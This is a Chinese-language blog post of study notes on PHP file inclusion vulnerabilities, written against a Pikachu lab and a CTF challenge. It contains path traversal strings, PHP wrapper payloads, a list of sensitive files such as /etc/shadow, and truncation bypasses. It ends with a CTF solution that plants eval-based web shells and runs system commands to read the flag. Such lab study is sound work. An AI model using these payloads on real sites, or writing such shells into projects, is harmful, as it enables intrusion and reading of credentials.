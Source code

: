 ```yaml
---
layout: post
title: File Include
subtitle: 文件包含漏洞
date: 2024-06-19 11:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: true
---
```

## 1. 文件包含伪协议

#### 1.1.1. 直接包含

```http
http://pikachu.to/vul/dir/dir_list.php?title=../../../../../../../\windows\system32\drivers\etc\hosts
http://pikachu.to/vul/dir/dir_list.php?title=../../../../../../windows/system32/drivers/etc/hosts
```

#### 1.1.2. file://

用于读取本地文件，必须使用绝对路径，php项目读取php文件时会执行其中代码，导致无法读取到源码。

```php
file:///etc/passwd
file://C:\Windows\System32\drivers\etc\hosts
file:///windows/system32/drivers/etc/hosts
```

#### 1.1.3. php://filter

读取指定资源，可以是本地也可以是远程资源，可指定编码类型对内容编码，在读取php文件时可防止其运行，从而读取源码。

```php
php://filter/ {operation}={filter_chain}/resource={source}
php://filter/read=convert.base64-encode/resource=http://www.baidu.com
php://filter/convert.base64-encode/resource=http://www.baidu.com
php://filter/resource=http://www.baidu.com
php://filter/resource=../index.php

operation: read write
filter-chain: convert.base64-encode convert.base64-decode
```

#### 1.1.4. php://input

用于读取原始的 POST 请求数据

```php
php://input

POST数据：
<?php eval($_POST['cmd']);?>
<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST["cmd"]);?>');?>
```

#### 1.1.5. data://

用于在 URL 中嵌入小块数据

```php
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
data://a/b,<?php phpinfo();?>
https://7cdbe539-f220-4021-ac93-fd10996d0f13.challenge.ctf.show
```

#### 1.1.6. zlib://

```php
compress.zlib://shell.php.gz
```

## 2. 敏感文件

```
/etc/shadow(存放密码)
/etc/gshadow(存放密码)
/etc/profile(系统环境)
/etc/group(组的数据库文件)
/etc/my.conf(MYSQL配置信息)
/usr/etc/php.ini(PHP配置信息)
/etc/crontab(crontab配置文件)
/etc/passwd(系统用户数据库文件)
/etc/httpd/conf/httpd.conf(Apache配置信息)
```

## 3. 文件包含绕过

1. %00截断

```
?filename=file:///var/log/httpd/access_log%00
```

1. %23 %00 截断
2. session文件包含
	session文件保存位置：`/var/lib/php/session`，文件名 `sess_phpsessid`

![image.png](https://img.ghostliner.top/MkmNDz.png)
![image.png](https://img.ghostliner.top/ifzPF6.png)

## 4. CTF 实战

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

代码审计：

- 禁止"php"不能用 `<?php` 可用加密
- 禁止"-"不能用 `php://filter/read=convert.base64-encode`

#### 4.1.1. 方法一

使用`data://a/b;base64,<base64 code>`构造不含"+"的base64编码

_PS. base64末尾等号可直接删除，不影响解码_

```php
<?php
fputs(fopen('shell.php','w'),'<?php phpinfo(); ?>');
?>#1
# base64:
# PD9waHAKZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgcGhwaW5mbygpOyA/PicpOwo/PiMx
```

```php
<?php
fputs(fopen('shell.php','w'),'<?php eval($_POST["code"]);?>');
?>#
# base64:
# PD9waHAKZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbHGNvZGUdXSk7Pz4nKTsKPz4j
```

![image.png](https://img.ghostliner.top/eB1pGC.png)

#### 4.1.2. 方法二

```php
<?php system("ls"); ?>
<?php system("cat fl0g.php"); ?>
```
